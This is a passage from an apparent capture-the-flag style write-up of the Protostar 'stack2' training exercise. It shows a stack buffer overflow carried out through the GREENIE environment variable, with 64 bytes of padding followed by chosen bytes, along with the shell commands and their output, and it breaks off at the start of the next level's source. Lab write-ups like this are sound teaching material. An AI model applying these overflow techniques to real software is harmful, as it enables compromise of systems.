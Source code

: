```c
  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}

```
### Overview
`Stack2 looks at environment variables, and how they can be set.`
After we try to execute the program we can see that we need to set the GREENIE environment variable
```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostart$ ./stack2 
stack2: please set the GREENIE environment variable

ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostart$ export GREENIE=test
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostart$ ./stack2 
Try again, you got 0x00000000
```
### Exploit

In this program it is similar to the previous challeneg, but instead we are using a environment variable called `GREENIE`. So we have to set the variable with the `export` and set a new value. It looks like the value that the program is looking for is `0x0d0a0d0a`. So we can decode the hex to ascii and see that it uses the newline and return hex values.

```shell
>>> '0d0a0d0a'.decode('hex')
'\r\n\r\n'
```
So if we try to append this to a 64 byte 'A' string then we get this:
```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostart$ export GREENIE=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\r\n\r\n
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostart$ ./stack2 Try again, you got 0x6e726e72
```
The values are not correctly interpreted so we can use a little python to get the exact values we want.
```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostart$ export GREENIE=`python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'"`
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostart$ ./stack2 
you have correctly modified the variable
```

## Stack Three

### Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
```